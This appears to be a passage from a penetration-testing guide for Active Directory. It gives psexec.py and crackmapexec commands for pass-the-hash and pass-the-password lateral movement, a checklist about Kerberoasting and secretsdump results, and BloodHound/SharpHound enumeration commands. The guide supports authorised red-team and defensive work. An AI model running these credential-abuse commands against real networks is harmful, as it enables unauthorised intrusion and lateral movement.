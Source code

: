 ### 3. Pass the Hash / Pass the Password
**Goal**: Use extracted credentials for lateral movement

```bash
# Pass-the-Hash with extracted NTLM hashes
psexec.py -hashes :ntlm_hash administrator@target_server.domain.local

# Pass-the-Password with cracked passwords
psexec.py domain.local/service_account:crackedpassword@target_server.domain.local

# Test credential validity across multiple systems
crackmapexec smb 192.168.1.0/24 -u username -p password
crackmapexec smb 192.168.1.0/24 -u username -H ntlm_hash

# Look for systems where you have admin rights
crackmapexec smb 192.168.1.0/24 -u username -p password --pwn3d
```

#### Quick Win Assessment Checklist
```bash
# ✅ Kerberoasting Results:
# - Did we find any crackable service account passwords?
# - Do any service accounts have admin rights?
# - Are there high-privilege service accounts (SQL, Exchange, etc.)?

# ✅ Secretsdump Results:
# - Did we extract domain admin hashes?
# - Are there any interesting machine accounts?
# - Did we find cached credentials for other users?

# ✅ Lateral Movement Results:
# - How many systems can we access with current credentials?
# - Do we have admin rights on any additional systems?
# - Can we access any servers (file servers, SQL servers, etc.)?
```

## Phase 2: No Quick Wins? Dig Deep!

### 1. Enumerate with Bloodhound
**Goal**: Map the domain environment and find privilege escalation paths

```bash
# Collect domain data with bloodhound-python
bloodhound-python -d domain.local -u username -p password -gc dc.domain.local -c all

# Alternative: Use SharpHound from a Windows system
.\SharpHound.exe -c All -d domain.local

# Upload data to Bloodhound and analyze:
# - Pre-built queries for privilege escalation
# - Custom queries for specific attack paths
# - Group membership analysis
# - Service account identification
```

